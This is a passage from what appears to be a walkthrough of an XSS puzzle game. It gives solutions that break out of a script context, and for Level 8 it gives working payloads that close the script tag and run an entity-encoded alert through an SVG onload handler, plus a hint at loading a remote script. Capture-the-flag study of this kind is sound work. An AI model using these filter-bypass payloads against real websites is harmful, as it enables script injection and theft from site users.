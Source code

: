 Solution:
```lang-javascript line-numbers 
'#';alert(1)//
```

It will render:
```lang-javascript line-numbers 
<script>'({"userdata":"';alert(1)//"})</script>
```

# Level 8:
```lang-javascript line-numbers 
function escape(s) {
  // Courtesy of Skandiabanken
  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```

There is no escaping function, only an upper case, so we can close the exisiting **&lt;script&gt;** tag and create a new tag (case insensitive) with an **onload** script using no alpha characters:

These are some valid solutions:
```lang-javascript line-numbers 
</script><svg><script>&#x61&#x6C&#x65&#x72&#x74(1)//   (52)
</script><svg onload=&#x61&#x6C&#x65&#x72&#x74(1)//   (51)
</script><svg onload=&#97&#108&#101&#114&#116(1)//   (50)
```

I guess people solving the challange with 28 characters or so did something like:

```lang-javascript line-numbers 
</script><script src="<very short domain>">
```
